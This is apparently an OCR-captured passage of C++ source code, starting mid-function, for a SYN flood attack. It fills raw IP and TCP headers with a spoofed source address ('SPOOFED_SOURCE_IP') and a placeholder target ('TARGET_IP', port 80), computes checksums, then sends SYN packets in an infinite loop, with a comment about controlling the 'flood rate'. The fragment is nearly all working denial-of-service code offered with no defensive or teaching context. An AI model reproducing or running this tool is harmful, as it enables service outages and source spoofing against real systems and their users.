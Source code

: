 ```cpp
    sin.sin_addr.s_addr = inet_addr("TARGET_IP");

    memset(datagram, 0, 4096);

    /* Fill in the IP Header */
    iph->ihl = 5;
    iph->version = 4;
    iph->tos = 0;
    iph->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr);
    iph->id = htonl(54321);
    iph->frag_off = 0;
    iph->ttl = 255;
    iph->protocol = IPPROTO_TCP;
    iph->check = 0;
    iph->saddr = inet_addr("SPOOFED_SOURCE_IP");
    iph->daddr = sin.sin_addr.s_addr;

    iph->check = csum((unsigned short *)datagram, iph->tot_len);

    /* Fill in the TCP Header */
    tcph->source = htons(12345);
    tcph->dest = htons(80);
    tcph->seq = 0;
    tcph->ack_seq = 0;
    tcph->doff = 5;
    tcph->fin = 0;
    tcph->syn = 1;
    tcph->rst = 0;
    tcph->psh = 0;
    tcph->ack = 0;
    tcph->urg = 0;
    tcph->window = htons(5840);
    tcph->check = 0;
    tcph->urg_ptr = 0;

    struct pseudo_header psh;
    psh.source_address = inet_addr("SPOOFED_SOURCE_IP");
    psh.dest_address = sin.sin_addr.s_addr;
    psh.placeholder = 0;
    psh.protocol = IPPROTO_TCP;
    psh.tcp_length = htons(sizeof(struct tcphdr));

    int psize = sizeof(struct pseudo_header) + sizeof(struct tcphdr);
    char *pseudogram = (char *)malloc(psize);

    memcpy(pseudogram, (char *)&psh, sizeof(struct pseudo_header));
    memcpy(pseudogram + sizeof(struct pseudo_header), tcph, sizeof(struct tcphdr));

    tcph->check = csum((unsigned short *)pseudogram, psize);

    while (true) {
        if (sendto(sock, datagram, iph->tot_len, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0) {
            std::cerr << "Send failed\n";
        } else {
            std::cout << "Packet Sent\n";
        }
        usleep(10000); // 10ms delay to control the flood rate
    }

    close(sock);
    return 0;
}
```